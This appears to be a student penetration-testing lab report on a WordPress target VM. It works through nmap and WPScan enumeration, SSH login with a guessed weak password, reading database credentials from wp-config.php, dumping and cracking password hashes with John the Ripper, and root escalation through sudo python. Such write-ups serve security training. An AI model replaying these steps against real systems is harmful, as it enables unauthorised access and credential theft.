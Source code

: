 # Read Team: Summary of Operations

### Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

Command: `$ nmap -sV 192.168.1.110`

![image](https://user-images.githubusercontent.com/85657022/145331919-7c9e4905-f1a6-4b13-afa3-a48f5c918b02.png)

This scan identifies the services below as potential points of entry:

**Target 1**
1. Port 22/TCP 	    Open 	SSH
2. Port 80/TCP 	    Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn

### Critical Vulnerabilities
The following vulnerabilities were identified on each target:

**Target 1**
1. User Enumeration (WordPress site)
2. WeakPassword
3. No Password Hash (WordPress database)
4. Misconfiguration of User Privileges/Privilege Escalation

### Explotation
The Red Team penetrated Target 1 and retrieved the following confidential data:

**Target 1**
- **Flag1: b9bbcb33ellb80be759c4e844862482d**
- Exploit Used:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![image](https://user-images.githubusercontent.com/85657022/145332297-87ea6077-b4fe-487f-97e5-d35eda39f42d.png)

- Targeting user Michael
    - Small manual Brute Force attack to guess/finds Michael’s password
    - User password was weak and obvious
    - Password: michael
- Capturing Flag 1: SSH in as Michael traversing through directories and files.
    - Flag 1 found in var/www/html folder at root in service.html in a HTML comment below the footer.
    - Commands:
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`
        - 
![image](https://user-images.githubusercontent.com/85657022/145332355-b6cbf624-e8bd-4af1-bfef-7a4dabf8c749.png)

- **Flag2: fc3fd58dcdad9ab23faca6e9a3e581c**
- Exploit Used:
    - Same exploit used to gain Flag 1.
    - Capturing Flag 2: While SSH in as user Michael Flag 2 was also found.
        - Once again traversing through directories and files as before Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd ../` 
            - `cd ../`
            - `cd var/www`
            - `ls -l`
            - `cat flag2.txt`
            - 
![image](https://user-images.githubusercontent.com/85657022/145332391-22ec0fa1-03b3-44ae-b66e-3a7e5690c4bc.png)

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Same exploits used to gain Flag 1 and 2.
    - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

![image](https://user-images.githubusercontent.com/85657022/145332403-6992904e-8e8a-43b7-a9ad-732b9d6d091c.png)


- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;
                - 
![image](https://user-images.githubusercontent.com/85657022/145333323-21291681-a30d-4d12-b21d-3cc1bec3032d.png)


        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`
                - 
![image](https://user-images.githubusercontent.com/85657022/145332564-a0f5bbbe-021d-48a4-9293-bdf2fe186cfc.png)

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls`
                - `cat flag4.txt`
                
![image](https://user-images.githubusercontent.com/85657022/145332591-b87510f7-55c6-4407-a204-81d5057e60db.png)
